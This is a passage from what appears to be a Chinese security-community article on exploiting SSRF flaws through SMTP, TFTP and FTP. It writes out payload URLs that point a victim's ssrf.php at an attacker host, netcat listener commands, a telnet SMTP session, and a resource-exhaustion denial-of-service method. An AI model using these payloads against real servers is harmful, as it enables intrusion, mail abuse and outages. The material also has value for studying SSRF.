 访问`http://victim:8084/ssrf.php?url=http://attacker:8084/smtp.php`

可以到 http://test.smtp.org/log 下查看日志，我的VPS连接不了 http://test.smtp.org的25端口，换来一台直接用TELNET模拟

```
ubuntu@ubuntu:~$ telnet test.smtp.org 25
Trying 52.2.168.164...
Connected to test.smtp.org.
Escape character is '^]'.
220 test.smtp.org ESMTP Sendmail 8.16.0.16 ready at Fri, 18 Mar 2016 06:47:04 GMT; see http://test.smtp.org/
HELO test.org
250 test.smtp.org Hello [xx.xx.xx.xx], pleased to meet you
MAIL FROM: <imgur@imgur.com>
250 2.1.0 <imgur@imgur.com>... Sender ok
RCPT TO: postmaster@test.smtp.org
250 2.1.5 postmaster@test.smtp.org... Recipient ok
DATA
354 Enter mail, end with "." on a line by itself
Test mail
.
250 2.0.0 u2I6l4QU017644 Message accepted for delivery

```

日志

[![](http://static.wooyun.org//drops/20160318/2016031808184049375.jpg)](http://drops.wooyun.org/wp-content/uploads/2016/03/4303DD91-97BC-41C2-8037-D9C3CB6384D5.jpg)

* * *

**使用TFTP协议来发送UDP包**

服务端监听UDP 11111端口`nc -v -u -l 11111`

访问`http://Victim:8084/ssrf.php?url=tftp://Attacker:11111/TEST`

Attacker:[![](http://static.wooyun.org//drops/20160318/2016031808184044868.jpg)](http://drops.wooyun.org/wp-content/uploads/2016/03/5E2AC53D-B859-41A3-8093-2ADD2674EB0A.jpg)

可以用来向UDP服务发起请求，比如Memcache 和 REDIS-UDP

* * *

**Denial of service**

如果请求的超时时间较长，攻击者可以iptables的 TARPIT 来block请求，此外CURL的 FTP:// 永远不会超时

Attacker 监听`nc -v -l 11111`

访问`http://Victim:8084/ssrf.php?url=ftp://Attacker:11111/TEST`

nginx环境下默认超时时间为1分钟[![](http://static.wooyun.org//drops/20160318/2016031808184110257.jpg)](http://drops.wooyun.org/wp-content/uploads/2016/03/C5A25D8D-1599-4E8B-83DB-EBCC7FB2051C.jpg)

攻击者可以发起大量请求来耗尽服务器的资源

0x04 结论
-------

* * *

撸站遇到SSRF时，除了可以使用http(s)之外，还有其它的一些协议，这里进行了简单的分析，希望对大家有一些帮助～